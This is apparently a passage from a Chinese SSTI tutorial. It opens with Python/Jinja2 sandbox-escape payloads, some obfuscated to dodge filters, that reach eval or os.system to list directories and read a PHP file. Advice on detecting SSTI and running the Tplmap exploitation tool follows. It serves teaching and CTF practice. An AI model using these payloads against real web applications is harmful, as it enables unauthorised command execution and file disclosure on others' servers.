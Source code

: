 	1 ().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("ls  /var/www/html").read()' )

	2 object.__subclasses__()[59].__init__.func_globals['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('ls')

    3  。。{{request['__cl'+'ass__'].__base__.__base__.__base__['__subcla'+'sses__']()[60]['__in'+'it__']['__'+'glo'+'bal'+'s__']['__bu'+'iltins__']['ev'+'al']('__im'+'port__("os").po'+'pen("ca"+"t a.php").re'+'ad()')}}

还有就可以参考一下P师傅的 https://p0sec.net/index.php/archives/120/

### 漏洞挖掘

对于一些师傅可能更偏向于实战，但是不幸的是实战中几乎不会出现ssti模板注入，或者说很少，大多出现在python 的ctf中。但是我们还是理性分析下。
每一个（重）模板引擎都有着自己的语法（点）,Payload 的构造需要针对各类模板引擎制定其不同的扫描规则,就如同 SQL  注入中有着不同的数据库类型一样。更改请求参数使之承载含有模板引擎语法的 Payload,通过页面渲染返回的内容检测承载的 Payload  是否有得到编译解析,不同的引擎不同的解析。所以我们在挖掘之前有必要对网站的web框架进行检查，否则很多时候{{}}并没有用，导致错误判断。
接下来附张图，实战中要测试重点是看一些url的可控，比如url输入什么就输出什么。前期收集好网站的开发语言以及框架，防止错误利用{{}}而导致错误判断。如下图较全的反映了ssti的一些模板渲染引擎及利用。

![](https://1024861435.github.io/assets/img/flask4.png)

### Tplmap 

> 服务器端模板注入和代码注入检测与开发工具
一个  python 工具，可以通过使用沙箱转义技术找到代码注入和服务器端模板注入（SSTI）漏洞。该工具能够在许多模板引擎中利用 SSTI  来访问目标文件或操作系统。一些受支持的模板引擎包括 PHP、Ruby、JaveScript、Python、ERB、Jinja2 和  Tornado。该工具可以执行对这些模板引擎的盲注入，并具有执行远程命令的能力。
使用 
获取：https://github.com/epinna/tplmap
安装第三方依赖

	pip install -r requirements

Tplmap 不仅利用了文件系统的漏洞，而且还具有使用不同参数访问底层操作系统的能力。以下屏幕截图显示了可用于访问操作系统的不同参数选项。
以下命令可用于测试目标URL中的易受攻击的参数。

	./tplmap.py -u <'目标网址'>

执行该命令后，该工具会针对多个插件测试目标 URL 以查找代码注入机会。
有关 SSTI 的内容就简单介绍到这里，向作者致敬。更多有关内容请前往 二向箔安全 进行学习，最近推出了一系列免费的网络安全技能包，有关CTF、渗透测试、网络攻防、黑客技巧尽在其中，学它涨姿势 。